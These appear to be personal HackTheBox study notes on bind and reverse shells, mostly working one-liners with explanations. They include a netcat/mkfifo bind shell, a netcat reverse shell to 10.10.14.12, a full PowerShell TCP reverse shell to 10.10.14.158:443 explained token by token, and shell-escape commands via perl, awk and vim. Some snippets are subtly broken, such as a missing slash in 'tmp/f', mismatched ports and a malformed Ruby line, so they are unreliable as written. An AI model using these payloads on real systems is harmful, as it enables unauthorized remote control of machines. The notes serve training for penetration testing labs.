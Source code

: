 [[HackTheBox]]

#### Bind Shell
local attack box to control the remote system through its shell. 

![[Pasted image 20250724231042.png]]

### Establishing a Basic Bind Shell with Netcat

Netcat
to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the directory, shell, listener, work with some pipelines, and input & output redirection to ensure a shell to the system gets served when the client attempts to connect.

No. 1: Server - Binding a Bash shell to the TCP session
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 8001 > /tmp/f
```

No. 2: Client
```
nc -lnvp 8001
```

# Payloads
## One-Liners Examined
#### One-Liners Examined Netcat/Bash Reverse Shell One-liner

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

#### Remove /tmp/f
```
rm -f /tmp/f;
```
Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. 
#### Make a Named Pipe
```
mkfifo /tmp/f;
```
Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.
#### Output Redirection
```
cat /tmp/f |
```
Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).
#### Set Shell Options
```
/bin/bash -i 2>&1 | 
```
Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).
#### Open a Connection with Netcat
```
nc 10.10.14.12 8001 > tmp/f
```


# PowerShell One-liner Explained
#### Powershell One-liner
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Calling Powershell
```
powershell -nop -c 
```
Executes powershell.exe with no profile (nop) and executes the command/script block (-c) contained in the quotes.
#### Binding A Socket
```
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```
Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (10.10.14.158,443). 
#### Setting The Command Stream
```
$stream = $client.GetStream();
```
Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications.
#### Empty Byte Stream
```
[byte[]]$bytes = 0..65535|%{0}; 
```
Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array.
#### Stream Parameters
```
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```

#### Set The Byte Encoding
```
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```
Sets/evaluates the variable ${;data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. 
#### Invoke-Expression
```
$sendback = (iex $data 2>&1 | Out-String ); 
```
Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard output (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. 
#### Show Working Directory
```
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```
Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >.
#### Sets Sendbyte
```
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```
Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.
#### Terminate TCP Conenction
```
$client.Close()"
```


# Spawing Interactive Shells

#### /bin/sh -i
This command will execute the shell interpreter specified in the path in interactive mode (-i).
```
/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

#### Perl To Shell
If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```
perl —e 'exec "/bin/sh";'
```

```
perl: exec "/bin/sh";
```
The command directly above should be run from a script.

Ruby
Ruby To Shell
```
ruby: exec "bin/sh/"
```

Lua
we can use the os.execute method to execute the shell interpreter specified using the full command below:
```
lua: os.execute('bin/sh')
```

AWK
AWK is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems, widely used by developers and sysadmins to generate reports.
```
awk 'BEGIN {system("/bin/sh")}'
```

VIM
command-line-based text-editor
```
vim -c ':!/bin/sh'
```
